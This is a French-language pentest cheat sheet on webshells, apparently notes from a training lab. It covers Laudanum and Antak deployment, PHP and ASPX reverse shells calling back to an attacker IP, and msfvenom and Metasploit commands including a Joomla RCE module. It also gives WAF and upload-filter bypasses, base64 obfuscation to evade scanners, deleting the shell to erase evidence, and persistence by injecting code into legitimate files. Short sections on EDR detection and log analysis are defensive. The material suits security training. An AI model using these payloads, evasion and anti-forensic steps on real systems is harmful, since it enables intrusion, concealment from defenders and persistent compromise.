

## Localisation et Accès

| Emplacement par défaut | Système |
| :--- | :--- |
| `/usr/share/laudanum/` | Kali, ParrotOS |

```bash
cd /usr/share/laudanum/
git clone https://github.com/curi0usJack/laudanum.git
```

## Types de Webshells

| Langage Web | Dossier | Fichier notable |
| :--- | :--- | :--- |
| PHP | `/php/` | `cmd.php`, `reverse.php` |
| ASP | `/asp/` | `cmd.asp`, `shell.asp` |
| ASPX | `/aspx/` | `shell.aspx`, `reverseshell` |
| JSP | `/jsp/` | `cmd.jsp`, `reverse.jsp` |
| Others | `/cfm/`, `/jspx/` | Selon les techno. cibles |

## Déploiement et Exécution (Exemple ASPX)

> [!warning] Nécessité de configurer un listener
> Avant toute exécution, un listener (ex: **nc** ou **msfconsole**) doit être actif sur la machine attaquante pour réceptionner la connexion.

1. Copie du fichier :
```bash
cp /usr/share/laudanum/aspx/shell.aspx ~/demo.aspx
```

2. Configuration de l'IP autorisée dans le code source :
```aspx
string[] allowedIps = new string[] { "10.10.14.12" };
```

3. Accès via navigateur :
```text
http://status.inlanefreight.local/files/demo.aspx
```

> [!tip] 
> Sur certains serveurs Windows/IIS, utiliser `\\` lors de l'upload et `/` dans l'URL.

## Exécution de commandes

Formulaire d'entrée : `cmd /c [commande]`

```cmd
whoami
ipconfig
systeminfo
net users
dir C:\Users
```

## Méthodes de bypass de WAF spécifiques aux webshells

Le bypass de WAF repose souvent sur la manipulation de la requête HTTP pour masquer la signature du payload.

- **Encodage double URL** : `%2565%2576%2561%256c` pour `eval`.
- **Injection de headers** : Utilisation de `X-Forwarded-For` ou `X-Originating-IP` pour contourner les restrictions basées sur l'IP.
- **Fragmentation de payload** : Découpage de la chaîne de commande en plusieurs variables concaténées pour éviter la détection par expression régulière.
- **Utilisation de fonctions alternatives** : Remplacer `system()` par `passthru()`, `exec()`, `shell_exec()` ou `popen()`.

## Antak Webshell (ASPX / PowerShell)

| Élément | Chemin par défaut |
| :--- | :--- |
| Webshell | `/usr/share/nishang/Antak-WebShell/` |
| Fichier clé | `antak.aspx` |

> [!danger] Risque de détection par les solutions EDR/AV
> Les webshells comme **Antak** sont fortement signatures. L'obfuscation est nécessaire pour le bypass.

### Authentification
Le fichier `antak.aspx` nécessite une modification des credentials (ligne ~14) :
```csharp
if (user == "htb-student" && password == "s3cr3tPass") 
{
    run.Visible = true;
    fileUpload.Visible = true;
}
```

### Fonctionnalités principales
- `help` : Liste des commandes
- `Encode and Execute` : Exécution de commandes **PowerShell** encodées
- `Parse web.config` : Extraction de chaînes de connexion
- `Execute SQL Query` : Interaction via **SQL Injection**

## Webshells PHP

### Bypass de restrictions d'upload
Utilisation de **Burp Suite** pour modifier le `Content-Type` lors de l'interception de la requête :
```http
Content-Type: application/x-php -> image/gif
```

### Reverse Shell PHP
Modification du fichier `php-reverse-shell.php` :
```php
$ip = '10.10.14.11';
$port = 443;
```

> [!info] Importance de l'obfuscation pour le bypass
> L'utilisation de `eval(base64_decode(...))` permet de masquer le contenu du payload aux scanners statiques.

> [!note] Nécessité de nettoyer les traces (unlink)
> Pour éviter la persistance de preuves, supprimer le fichier après usage :
```php
@unlink(__FILE__);
```

## Techniques de détection par les EDR/AV (comportemental)

Les solutions EDR modernes surveillent les comportements anormaux liés aux processus web (ex: `w3wp.exe` ou `apache2` générant des processus enfants) :

- **Processus enfants suspects** : Lancement de `cmd.exe`, `powershell.exe` ou `bash` depuis un processus serveur web.
- **Appels API suspects** : Utilisation de `VirtualAlloc` ou `WriteProcessMemory` pour injecter du code en mémoire.
- **Connexions réseau sortantes** : Trafic réseau initié par le serveur web vers des ports non standards ou des IP externes inconnues.
- **Modification de fichiers système** : Écriture dans des répertoires sensibles ou modification de fichiers de configuration (`web.config`, `.htaccess`).

## Analyse de logs (traces laissées par les webshells)

L'analyse post-exploitation doit se concentrer sur les logs d'accès et d'erreurs du serveur (ex: **Joomla**, **WordPress**, **Tomcat**) :

- **Logs d'accès** : Recherche de requêtes `POST` inhabituelles vers des fichiers `.php` ou `.aspx` avec des paramètres suspects.
```bash
grep -E "POST|GET" /var/log/apache2/access.log | grep ".php"
```
- **Logs d'erreurs** : Identification de messages d'erreur liés à l'exécution de commandes système ou à des accès refusés.
- **Horodatage** : Corrélation entre l'upload du fichier et les activités suspectes sur le système.

## Persistance via webshell

Pour maintenir l'accès, le webshell peut être dissimulé ou intégré dans le code source existant :

- **Injection dans des fichiers légitimes** : Ajouter une ligne de code malveillant au début d'un fichier `index.php` ou `header.php`.
- **Webshell caché** : Utilisation de noms de fichiers anodins (ex: `config_inc.php`, `db_connect.php`) dans des sous-répertoires profonds.
- **Tâches planifiées** : Utilisation du webshell pour créer un `cron job` ou une tâche planifiée **Windows** pour re-télécharger le payload périodiquement.

## Delivery via Metasploit

### Génération avec msfvenom
```bash
msfvenom -p php/reverse_php LHOST=10.10.14.11 LPORT=443 -f raw > shell.php
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.11 LPORT=443 -f aspx > shell.aspx
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.11 LPORT=443 -f war > shell.war
```

### Exploitation via module
```bash
msfconsole
use exploit/windows/http/joomla_com_fields_sqli_rce
set RHOSTS 10.129.XXX.XXX
set TARGETURI /joomla
set LHOST 10.10.14.11
set LPORT 443
run
```

### Listener pour Reverse Shell
```bash
use exploit/multi/handler
set PAYLOAD php/reverse_php
set LHOST 10.10.14.11
set LPORT 443
run
```
```